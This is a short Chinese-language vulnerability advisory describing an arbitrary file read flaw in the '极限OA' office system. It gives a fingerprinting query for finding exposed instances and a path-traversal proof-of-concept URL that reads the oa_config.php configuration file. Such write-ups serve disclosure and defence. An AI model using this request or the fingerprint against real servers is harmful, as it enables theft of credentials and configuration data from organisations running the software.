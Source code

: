 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
极限OA
```

## 网络测绘

```
icon_hash="1967132225"
```

## 漏洞复现

登录页面

![image-20220715111126095](images/202207151111176.png)

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![image-20220715111241562](images/202207151112653.png)